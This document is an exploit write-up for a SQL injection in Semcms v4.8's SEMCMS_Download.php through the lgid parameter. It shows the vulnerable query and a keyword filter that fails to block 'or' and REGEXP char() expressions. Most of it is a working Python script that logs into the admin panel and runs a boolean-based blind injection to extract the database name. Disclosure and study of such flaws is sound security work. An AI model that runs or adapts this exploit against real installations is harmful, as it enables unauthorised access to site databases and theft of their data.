






# Semcms v4.8 SEMCMS_Download.php SQL Injection    with (lgid)


- **Exploit Title:**  Semcms v4.8 SEMCMS_Download.php SQL Injection with argument(lgid)
- **Date:** 2024-05-24
- **Vendor Homepage:** http://www.sem-cms.com/
- **Software Link:** [https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0](http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip)
- **Version:** Semcmsv4.8


v4.8zip download link:http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip


## Vulnerability description

A SQL injection vulnerability exists in the SEMCMS v4.8 . The vulnerability results from a lack of validation of externally entered SQL statements in the SEMCMS_Download.php ,parameter  lgid. An attacker without an account could exploit this vulnerability to execute illegal SQL commands to obtain sensitive data from the database.


## Vulnerability analysis


filter function:

 the  code  in  include/contor.php  line 8

In the include directory of the project source code, there is a contorl. PHP file. When searching for the input_check_sql function in the file, you will find that it is a global SQL query string filtering function that uses regularization to match a series of commonly used characters in SQL statements, preg_match ('select | and | insert |=|% |<| between | update | \ '| \ * | union | intro | load_file | outfile/i', $sqlstr);
Select, and, insert,%,=,<, between, update, *, union, into, ', etc. are all filtered, and all SQL query statement strings will be passed as parameters to the $str variable before being called by the verify_str() function. When the user inputs, the verify_str() inner layer calls the input_check_sql() function for verification, which is like a global SQL statement validator.



```
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 


```


The vulnerability code is  in SEMCMS_Download.php    line 68  :

```
 $sql=$db_conn->query("select * from sc_download where languageID=".$_GET["lgid"]."");     
 $all_num=mysqli_num_rows($sql); //总条数
```


payload: ID=1'  

 inject_check_sql() is called to determine whether sql injection exists

It runs inject_check_sql() statements through a series of contains, the logical chain is:：SEMCMS_Download.php->SEMCMS_TOP_include.php-> ./Include/inc.php->../Include/contorl.php





Through this Boolean judgment, it is found that if the logic judgment is true, the result is displayed, otherwise there is no content, and sql injection exists through this judgment

http://127.0.0.1:8002/e2aLvD_Admin/SEMCMS_Download.php?lgid=-1

http://127.0.0.1:8002/e2aLvD_Admin/SEMCMS_Download.php?lgid=-1%20or%201





Using python scripts, sql injection is performed to detect the database:

```
#!/usr/bin/python
# -*- coding: UTF-8 -*-
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import requests

session = requests.session()
def login(url, username, password):
    burp0_url = url + "/SEMCMS_Top_include.php?CF=users&Class=login"
    burp0_cookies = {"scusername": "%E6%80%BB%E8%B4%A6%E5%8F%B7", "scuseradmin": "Admin",
                     "scuserpass": "c4ca4238a0b923820dcc509a6f75849b"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
                     "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                     "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded",
                     "Origin": "http://127.0.0.1:8002", "Connection": "close",
                     "Referer": "http://127.0.0.1:8002/e2aLvD_Admin/index.html", "Upgrade-Insecure-Requests": "1",
                     "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin",
                     "Sec-Fetch-User": "?1"}
    burp0_data = {"UserName": username, "UserPass": password, "checkbox": "on", "x": "39", "y": "15"}
    re = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    if "欢迎使用黑蚂蚁" in re.text:
        print("登录成功")
    else:
        print("登录失败")


def get_db_len(url):
    """
	get database length
	"""
    for i in range(1, 50):
        i = str(i)
        if len(i) == 1:
            payload = "-1 or length(database()) REGEXP char(94,{},36)".format(ord(i))

        else:
            a = i[0]
            b = i[1]
            payload = "-1 or length(database()) REGEXP char(94,{},{},36)".format(ord(a), ord(b))

        url1 = url + payload
        resp = session.get(url1, timeout=3)
        if ".jpg" in resp.text:
            print("存在漏洞:",i)
            print(url1)
            return int(i)


def get_db_name(url):

    db_len = get_db_len(url)
    print("数据库长度:",db_len)


    print("数据库名:")
    for i in range(1, db_len + 1):
        for j in range(32, 127):
            j = str(j)
            a = j[0]
            b = j[1]
            if len(j) == 2:
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a),
                                                                                                 ord(b))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a), ord(b)))
            else:
                c = j[2]
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a),
                                                                                                    ord(b),
                                                                                                    ord(c))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a), ord(b),

            url1 = url + payload
            resp = session.get(url1, timeout=3)

            if ".jpg" in resp.text:
                print(chr(int(j)))
                print(url1)


# url = input("请输入后台url:")
# username = input("请输入用户名:")
# password = input("请输入密码:")
url="http://127.0.0.1:8002/e2aLvD_Admin"
# mode_len = session.get(url_test="", timeout=3)
username="Admin"
password='1'
login(url=url, username=username, password=password)

path2="/SEMCMS_Download.php?type=edit&lgid=1&page=1&ID="
path4="/SEMCMS_Download.php?lgid="
get_db_name(url=url + path4)
```




